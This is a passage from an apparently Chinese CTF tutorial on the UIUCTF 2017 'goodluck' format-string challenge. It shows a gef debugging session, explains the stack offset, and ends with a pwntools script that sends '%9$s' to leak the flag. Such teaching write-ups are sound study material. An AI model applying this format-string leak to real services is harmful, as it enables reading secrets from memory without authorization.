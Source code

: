 ```shell
gef➤  b printf
Breakpoint 1 at 0x400640
gef➤  r
Starting program: /mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/2017-UIUCTF-pwn200-GoodLuck/goodluck 
what's the flag
123456
You answered:

Breakpoint 1, __printf (format=0x602830 "123456") at printf.c:28
28	printf.c: 没有那个文件或目录.

─────────────────────────────────────────────────────────[ code:i386:x86-64 ]────
   0x7ffff7a627f7 <fprintf+135>    add    rsp, 0xd8
   0x7ffff7a627fe <fprintf+142>    ret    
   0x7ffff7a627ff                  nop    
 → 0x7ffff7a62800 <printf+0>       sub    rsp, 0xd8
   0x7ffff7a62807 <printf+7>       test   al, al
   0x7ffff7a62809 <printf+9>       mov    QWORD PTR [rsp+0x28], rsi
   0x7ffff7a6280e <printf+14>      mov    QWORD PTR [rsp+0x30], rdx
───────────────────────────────────────────────────────────────────────[ stack ]────
['0x7fffffffdb08', 'l8']
8
0x00007fffffffdb08│+0x00: 0x0000000000400890  →  <main+234> mov edi, 0x4009b8	 ← $rsp
0x00007fffffffdb10│+0x08: 0x0000000031000001
0x00007fffffffdb18│+0x10: 0x0000000000602830  →  0x0000363534333231 ("123456"?)
0x00007fffffffdb20│+0x18: 0x0000000000602010  →  "You answered:\ng"
0x00007fffffffdb28│+0x20: 0x00007fffffffdb30  →  "flag{11111111111111111"
0x00007fffffffdb30│+0x28: "flag{11111111111111111"
0x00007fffffffdb38│+0x30: "11111111111111"
0x00007fffffffdb40│+0x38: 0x0000313131313131 ("111111"?)
──────────────────────────────────────────────────────────────────────────────[ trace ]────
[#0] 0x7ffff7a62800 → Name: __printf(format=0x602830 "123456")
[#1] 0x400890 → Name: main()
─────────────────────────────────────────────────────────────────────────────────────────────────


```

可以看到 flag 对应的栈上的偏移为 5，除去对应的第一行为返回地址外，其偏移为 4。此外，由于这是一个 64 位程序，所以前 6 个参数存在在对应的寄存器中，fmt 字符串存储在 RDI 寄存器中，所以 fmt 字符串对应的地址的偏移为 10。而 fmt 字符串中 `%order$s` 对应的 order 为 fmt 字符串后面的参数的顺序，所以我们只需要输入 `%9$s` 即可得到 flag 的内容。当然，我们还有更简单的方法利用 https://github.com/scwuaptx/Pwngdb 中的 fmtarg 来判断某个参数的偏移。

```shell
gef➤  fmtarg 0x00007fffffffdb28
The index of format argument : 10
```

需要注意的是我们必须 break 在 printf 处。

#### 利用程序

```python
from pwn import *
from LibcSearcher import *
goodluck = ELF('./goodluck')
if args['REMOTE']:
    sh = remote('pwn.sniperoj.cn', 30017)
else:
    sh = process('./goodluck')
payload = "%9$s"
print payload
##gdb.attach(sh)
sh.sendline(payload)
print sh.recv()
```